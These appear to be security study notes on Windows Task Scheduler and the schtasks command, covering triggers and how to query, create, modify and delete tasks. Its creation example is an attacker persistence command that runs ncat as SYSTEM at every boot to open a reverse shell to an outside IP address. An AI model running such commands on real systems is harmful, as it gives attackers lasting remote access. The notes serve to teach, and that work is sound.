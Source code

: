 # Working with Scheduled Tasks



## 1. What Are Scheduled Tasks?

The **Task Scheduler** is a Windows component that allows you to automatically run a program or script based on a specific **trigger**.

*   **Core Idea:** It's the built-in "cron" of the Windows world, enabling "set it and forget it" automation.
*   **Security Relevance:** For an attacker, creating a scheduled task is a top-tier persistence method. They can create a task that runs at boot or user logon to execute a malicious payload (like a reverse shell), ensuring they regain access to the system even after a reboot or if their initial exploit is cleaned up.

### Common Triggers
A task can be configured to run based on a wide variety of events, including:
*   At a specific time/date.
*   On a recurring schedule (daily, weekly, monthly).
*   When the system boots up (**ONSTART**).
*   When a specific user logs on (**ONLOGON**).
*   When the computer becomes idle.

---

## 2. The `schtasks` Command

`schtasks.exe` is the primary command-line utility for creating, querying, modifying, and deleting scheduled tasks.

### Querying Tasks (`/Query`)
This is the first step in enumeration: finding out what tasks already exist on the system.

*   **Syntax:** `schtasks /Query [options]`
*   **Key Options:**
    *   `/fo <FORMAT>`: Sets the output **fo**rmat. `LIST` is very readable.
    *   `/v`: **V**erbose output, shows all details of the tasks.
    *   `/nh`: **N**o **h**eader, removes column headers from table output.
*   **Example (View all tasks in a detailed list format):**
    ```powershell
    schtasks /Query /fo LIST /v
    ```

### Creating Tasks (`/Create`)
This allows you to create a new scheduled task.

*   **Syntax:** `schtasks /Create /sc <SCHEDULE> /tn <TASKNAME> /tr <TASKTORUN> [options]`
*   **Key Parameters:**
    *   `/sc`: The **sc**hedule type (e.g., `ONSTART`, `ONLOGON`, `MINUTE`, `HOURLY`).
    *   `/tn`: The **t**ask **n**ame (must be unique).
    *   `/tr`: The **t**ask to **r**un (the command or path to the executable).
    *   `/ru`: The user to **r**un the task **u**nder (e.g., `SYSTEM` for highest privileges).
*   **Example (Creating a persistence mechanism):**
    This command creates a task named "My Secret Task" that runs `ncat.exe` to establish a reverse shell every time the system starts up.
    ```powershell
    schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100" /ru SYSTEM
    ```

### Modifying Tasks (`/Change`)
This allows you to change the properties of an existing task.

*   **Syntax:** `schtasks /Change /tn <TASKNAME> [options]`
*   **Key Parameters:**
    *   `/tr`: Change the program the task runs.
    *   `/ru`: Change the user the task runs as.
    *   `/rp`: Provide the **p**assword for the user specified with `/ru`.
    *   `/DISABLE` or `/ENABLE`: Disable or enable the task.
*   **Example (Changing the "Run As" user):**
    ```powershell
    schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"
    ```

### Deleting Tasks (`/Delete`)
This removes a scheduled task.

*   **Syntax:** `schtasks /Delete /tn <TASKNAME> [options]`
*   **Key Parameter:**
    *   `/f`: **F**orce the deletion without a confirmation prompt.
*   **Example:**
    ```powershell
    schtasks /delete /tn "My Secret Task" /f
    ```

### Running a Task On-Demand (`/Run`)
This allows you to manually trigger a scheduled task to run immediately, which is useful for testing.

*   **Syntax:** `schtasks /Run /tn <TASKNAME>`
